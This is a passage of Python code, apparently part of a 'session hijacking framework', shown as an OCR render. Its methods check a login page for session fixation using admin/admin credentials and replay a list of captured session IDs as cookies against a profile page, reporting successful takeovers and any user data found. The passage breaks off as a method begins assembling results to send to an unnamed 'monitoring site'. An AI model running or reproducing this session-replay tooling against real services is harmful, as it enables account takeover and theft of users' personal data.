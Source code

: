 ```python
    def test_session_fixation(self):
        """Test for session fixation vulnerability"""
        print(f"\n[+] Testing session fixation...")
        
        try:
            # Get initial session
            session = requests.Session()
            response = session.get(f"{self.target_url}/login")
            
            initial_cookies = dict(session.cookies)
            
            # Attempt login
            login_data = {'username': 'admin', 'password': 'admin'}
            login_response = session.post(f"{self.target_url}/login", data=login_data)
            
            post_login_cookies = dict(session.cookies)
            
            if initial_cookies == post_login_cookies:
                print(f"  [!] Session fixation vulnerability detected!")
                return True
            else:
                print(f"  [+] Session properly regenerated after login")
                return False
                
        except Exception as e:
            print(f"  [-] Error testing session fixation: {e}")
            return False
    
    def test_session_replay(self, session_ids):
        """Test session replay attacks"""
        print(f"\n[+] Testing session replay...")
        
        successful_replays = 0
        
        for session_id in session_ids:
            session = requests.Session()
            session.cookies.set('JSESSIONID', session_id)
            
            try:
                response = session.get(f"{self.target_url}/profile")
                if response.status_code == 200:
                    print(f"  [!] Session replay successful: {session_id[:20]}...")
                    successful_replays += 1
                    
                    # Try to extract user information
                    if 'email' in response.text:
                        print(f"    [+] Found user data in response")
                        
            except Exception as e:
                print(f"  [-] Error replaying session: {e}")
        
        print(f"[+] {successful_replays} successful session replays")
        return successful_replays
    
    def send_test_results(self):
        """Send test results to monitoring site"""
        try:
            results = {
                'test_type': 'session_hijacking_framework',
                'timestamp': time.time(),
                'target_url': self.target_url,
                'tests_completed': [
                    'session_analysis',
```